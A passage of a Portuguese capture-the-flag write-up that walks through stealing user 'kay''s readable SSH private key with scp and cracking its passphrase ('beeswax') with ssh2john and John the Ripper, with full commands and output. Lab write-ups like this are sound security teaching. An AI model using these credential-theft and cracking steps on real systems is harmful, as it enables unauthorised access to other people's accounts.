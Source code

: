 **Resposta:** `Não é necessária resposta`

Explorando o diretório home do usuário `kay`, encontramos a pasta oculta `.ssh/` contendo arquivos importantes para autenticação:

```bash
jan@ip-10-201-18-169:~$ cd /home/kay
jan@ip-10-201-18-169:/home/kay$ ls -la
total 48
drwxr-xr-x 5 kay  kay  4096 Apr 23  2018 .
drwxr-xr-x 5 root root 4096 Aug 11 09:16 ..
-rw------- 1 kay  kay   789 Jun 22 13:41 .bash_history
-rw-r--r-- 1 kay  kay   220 Apr 17  2018 .bash_logout
-rw-r--r-- 1 kay  kay  3771 Apr 17  2018 .bashrc
drwx------ 2 kay  kay  4096 Apr 17  2018 .cache
-rw------- 1 root kay   119 Apr 23  2018 .lesshst
drwxrwxr-x 2 kay  kay  4096 Apr 23  2018 .nano
-rw------- 1 kay  kay    57 Apr 23  2018 pass.bak
-rw-r--r-- 1 kay  kay   655 Apr 17  2018 .profile
drwxr-xr-x 2 kay  kay  4096 Apr 23  2018 .ssh
-rw-r--r-- 1 kay  kay     0 Apr 17  2018 .sudo_as_admin_successful
-rw------- 1 root kay   538 Apr 23  2018 .viminfo
jan@ip-10-201-18-169:/home/kay$ cd .ssh/
jan@ip-10-201-18-169:/home/kay/.ssh$ ls -la
total 20
drwxr-xr-x 2 kay kay 4096 Apr 23  2018 .
drwxr-xr-x 5 kay kay 4096 Apr 23  2018 ..
-rw-rw-r-- 1 kay kay  771 Apr 23  2018 authorized_keys
-rw-r--r-- 1 kay kay 3326 Apr 19  2018 id_rsa
-rw-r--r-- 1 kay kay  771 Apr 19  2018 id_rsa.pub
jan@ip-10-201-18-169:/home/kay/.ssh$ 
```

O arquivo `id_rsa` é a chave privada SSH do usuário `kay`. Para utilizá-la, primeiro extraímos esse arquivo para nossa máquina local via SCP:

```bash
┌──(root㉿kali)-[/home/kali]
└─# scp jan@10.201.18.169:/home/kay/.ssh/id_rsa .

jan@10.201.18.169's password: 
id_rsa                                          100% 3326     5.8KB/s   00:00  
```

Após baixar o arquivo, devemos utilizar o módulo `ssh2john` do John The Ripper para converter a chave privada em um formato compativel para quebra de senha:

```bash
┌──(root㉿kali)-[/home/kali]
└─# ssh2john id_rsa > hash.txt    
```

Agora usamos o John the Ripper com a wordlist `rockyou.txt` para tentar descobrir a senha da chave privada:

```bash
┌──(root㉿kali)-[/home/kali]
└─# john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
beeswax          (id_rsa)     
1g 0:00:00:00 DONE (2025-08-11 10:50) 14.28g/s 1182Kp/s 1182Kc/s 1182KC/s behlat..bammer
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```
